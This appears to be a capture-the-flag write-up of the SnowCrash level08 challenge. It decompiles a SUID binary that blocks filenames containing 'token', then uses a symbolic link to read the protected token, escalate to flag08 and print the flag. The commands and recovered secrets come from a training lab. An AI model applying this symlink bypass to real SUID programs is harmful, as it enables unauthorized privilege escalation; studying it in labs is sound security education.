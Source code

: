 - In the directory `/home/user/level08` a binary `level08` is present with SUID of flag08. There is also a `token` file unreadable due to permissions.

- Launching the binary requires a file input. Passing the `token` file to the binary does not permit us to read the file

```
level08@SnowCrash:~$ pwd
/home/user/level08
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
```

- Ex-filtrating the binary to the attack machine and launching `ghidra` to de-compile the code reveals further details

```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ sudo ghidra level08
```

![[Pasted image 20250914044700.png]]

- Specifically the line `pcVar1 = strstr((char *)in_stack_00000008[1],"token");` checks to see if the string `token` is visible in the argument passed into the program. If it is, it exits with an error.

![[Pasted image 20250914044934.png]]

- We cannot copy or rename the original `token` file due to permissions but we can create a symbolic link which can be named something else to bypass the `token` string check

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/somerandomname
level08@SnowCrash:~$ ls -la /tmp/somerandomname
lrwxrwxrwx 1 level08 level08 24 Sep 18 23:53 /tmp/somerandomname -> /home/user/level08/token
level08@SnowCrash:~$ ./level08 /tmp/somerandomname
quif5eloekouj29ke0vouxean
```

- Use the token obtained to authenticate as `flag08` and run the `getflag` command
```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

- Authenticate as `level09` using the new token\
```
flag08@SnowCrash:~$ su level09
Password: 
level09@SnowCrash:~$ 
```